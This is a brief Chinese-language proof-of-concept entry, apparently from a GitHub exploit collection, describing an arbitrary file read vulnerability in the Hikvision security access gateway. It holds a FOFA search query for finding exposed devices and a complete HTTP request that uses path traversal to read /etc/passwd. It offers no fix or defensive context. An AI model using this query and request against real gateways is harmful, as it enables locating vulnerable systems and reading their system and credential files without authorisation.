 ## 海康威视安全接入网关任意文件读取漏洞
海康威视安全接入网关存在任意文件读取漏洞，通过此漏洞攻击者可读取服务器上任意文件。

## fofa
```
body="webui/js/jquerylib/jquery-1.7.2.min.js" && product="ABT-应用网关" || body="webui/js/jquerylib/jquery-1.7.2.min.js" && product="HIKVISION-安全网关"
```

## poc
```
GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USGSESSID=b75bce9897c9e543ab7be9ac44af4f76
Upgrade-Insecure-Requests: 1
```

![2fa214010159c2d5b7921f7baedc8a3d](https://github.com/wy876/POC/assets/139549762/075fbfb9-1dc8-45b5-935b-1eb09d82f449)
